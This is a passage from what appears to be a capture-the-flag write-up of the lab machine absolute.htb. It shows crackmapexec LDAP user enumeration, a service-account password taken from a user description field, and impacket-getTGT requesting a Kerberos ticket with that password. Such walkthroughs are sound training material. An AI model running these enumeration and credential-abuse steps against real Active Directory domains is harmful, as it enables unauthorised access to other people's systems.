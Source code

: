 But we can't access the share:


![image16](../resources/50e74de74bd3425c862b125a4c4a957e.png)

- We have ldap access as well - so we can list all users:

```bash
crackmapexec ldap dc.absolute.htb --use-kcache --users

```

![image17](../resources/d2191b6d5d8748a58dbf1ae9e60590b3.png)

- And we get credentials in the description:
**svc_smb : AbsoluteSMBService123!**

- We can try them with SMB:

![image18](../resources/09fe1c205741484993b17f2b556d900e.png)

- Get a TGT for the svc_smb:

```bash
impacket-getTGT 'absolute.htb/svc_smb:AbsoluteSMBService123!'

```

![image19](../resources/72990e315ff544ec82d0bed76a64ba4f.png)
